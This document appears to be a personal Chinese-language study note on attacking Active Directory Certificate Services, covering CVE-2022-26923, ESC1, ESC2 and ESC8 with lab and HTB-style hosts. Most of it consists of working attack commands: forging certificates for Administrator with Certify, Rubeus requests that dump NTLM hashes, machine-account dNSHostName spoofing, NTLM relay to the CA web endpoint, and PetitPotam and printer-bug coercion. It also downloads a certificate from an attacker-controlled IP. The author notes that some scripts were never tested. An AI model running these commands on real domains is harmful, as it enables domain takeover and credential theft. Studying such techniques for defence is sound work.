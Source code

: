 # ADCS攻击



https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation

https://www.freebuf.com/articles/network/368120.html



（太多了）

(这部分是随便记的)





ADCS即Active Directory Certificate Service（活动目录证书服务，）

可以使用证书来进行Kerberos预身份认证：

```shell
#使用administrator.pfx证书进行身份认证，这一步就可以得到administrator的HTLM Hash
.\Rubeus.exe asktgt /user:Administrator /certificate：administrator.pfx /domain:hack.com /dc:DC.hack.com
#转储账号的凭证信息，输出的最后一行是HTLM Hash
Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials /show /nowrap
```



证书的注册流程：

1. 客户端生成一对公、私钥
2. 客户端生成证书签名请求(CSR，Certificate Signing
   Request)，里面包含客户端生成的公钥以及请求的证书模板、请求的主体等信息。整个CSR用客户端的私钥签名，发送给CA
3. CA收到请求后，从中取出公钥对CSR进行签名校验。校验通过后判断客户证书注册端请求的证书模板是否存在，如果存在，根据证书模板中的属性判断请求的主体是否有权限申请该证书。如果有权限，则还要根据其他属性，如发布要求、使用者名称、扩展等属性来生成证书。
4. CA使用其私钥签名生成的证书并发送给客户端
5. 客户端存储该证书在系统中





## CVE-2022-26923

该漏洞产生的主要原因是ADCS服务器在处理计算机模板证书时是通过机器的dNSHostName属性来辨别用户的，而普通域用户即有权限修改它所创建的机器账户dNSHostName属性，因此恶意攻击者可以创建一个机器账户，然后修改它的dNSHostName属性为域控的dNSHostName，然后去请求计算机模板的证书。ADCS服务器在生成证书时会将域控的dNSHostName属性写入证书中。当使用进行PKINI Kerberos认证时，KDC会查询活动目录中的sAMAccountName属性为“dNSHostName-域名+$"的对象，此时会查询到域控，因此会以域控机器账户的权限生成PAC放入票据中。由于域控机器账户默认具有DCSync权限，因此攻击者可以通过该票据导出域内任意用户的Hash。



https://systemweakness.com/exploiting-cve-2022-26923-by-abusing-active-directory-certificate-services-adcs-a511023e5366

（下面的脚本没有实地打过）

```shell
impacket-addcomputer 'lunar.eruca.com/thm:Password1@' -method LDAPS -computer-name 'THMPC' -computer-pass 'Password1@'

Set-ADComputer THMPC -ServicePrincipalName @{}
Set-ADComputer THMPC -DnsHostName LUNDC.lunar.eruca.com

certipy req 'lunar.eruca.com/THMPC$:Password1@@lundc.lunar.eruca.com' -ca LUNAR-LUNDC-CA -template Machine
```



这个也没有实地打过：

```shell
Import-Module .\Powermad.ps1
Import-Module .\PowerView.ps1

$Password = ConvertTo-SecureString 'fengfeng123!!!' -AsPlainText -Force
New-MachineAccount -MachineAccount "FENG" -Password $($Password) -Domain "sequel.htb" -DomainController "dc.sequel.htb" -Verbose

Set-DomainObject -Identity "FENG$" -Set @{"dnsHostname" = "dc.sequel.htb"} -Verbose
```





收集ADCS信息：

```shell
certutil.exe
```

## 证书模版配置错误漏洞攻击

### **ESC1**

1. 低权限用户可以注册证书（`Enrollment Rights: NT Authority\Authenticated Users`）
2. 无需授权签名。（`Authorized Signatures Required       : 0`）
3. 申请新证书的用户可以为其他用户申请证书，即任何用户，包括域管理员用户（`msPKI-Certificates-Name-Flag:ENROLLEE_SUPPLIES_SUBJECT`）



**攻击流程：**

```shell
 .\certify.exe find /vulnerable
 [!] Vulnerable Certificates Templates :

    CA Name                               : dc.sequel.htb\sequel-DC-CA
    Template Name                         : UserAuthentication
    Schema Version                        : 2
    Validity Period                       : 10 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Secure Email
    mspki-certificate-application-policy  : Client Authentication, Encrypting File System, Secure Email
    Permissions
      Enrollment Permissions
        Enrollment Rights           : sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Domain Users           S-1-5-21-4078382237-1492182817-2568127209-513
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
        WriteOwner Principals       : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519



Certify completed in 00:00:09.8715059
```

请求证书：

```shell
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```

```shell
-----BEGIN RSA PRIVATE KEY-----
...
-----END CERTIFICATE-----


```



将上面的内容全部复制存储下来，然后：

```shell
iwr -uri http://10.10.14.14:39554/cert.pfx -outfile cert.pfx
upload Rubeus.exe


.\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials /show /nowrap
```

即可得到administrator的NTLM hash





### **ESC2**

和ESC1的区别：证书模板定义了任意用途 EKU 或没有 EKU。

利用方式同ESC1.



### **ESC8**

ADCS在默认安装的时候，其Web接口支持NTLM身份验证并且没有启用任何NTLM Relay保护措施。强制域控制器计算机帐户(DC$)向配置了NTLM中继的主机进行身份验证。身份验证被转发给证书颁发机构(CA)并提出对证书的请求。获取到了DC$的证书后就可以为用户/机器请求TGS/TGT票据，获取相应的权限。

即想办法从其他地方进行NTLM Relay，把hash中继到web的ca服务器来获取证书。

```shell
python3 ntlmrelayx.py -t http://192.168.41.10/certsrv/certfnsh.asp -smb2support --adcs --template 'domain controller'

#使用PetitPotam漏洞触发
python3 PetitPotam.py -d hack.com -u hack -p Admin123 192.168.41.19 192.168.41.40
#使用Print Spooler漏洞触发
python3 printerbug.py hack/hack:Admin123@192.168.41.40 192.168.41.19 

Rubeus.exe asktgt /user:DC2$ /ptt /nowrap /outfile:ticket.kirbi /certificate:打印出的的base64格式的证书
#即可获取hash。
```



ESC2-ESC7不看了，不太常见而且细节上差不太多。



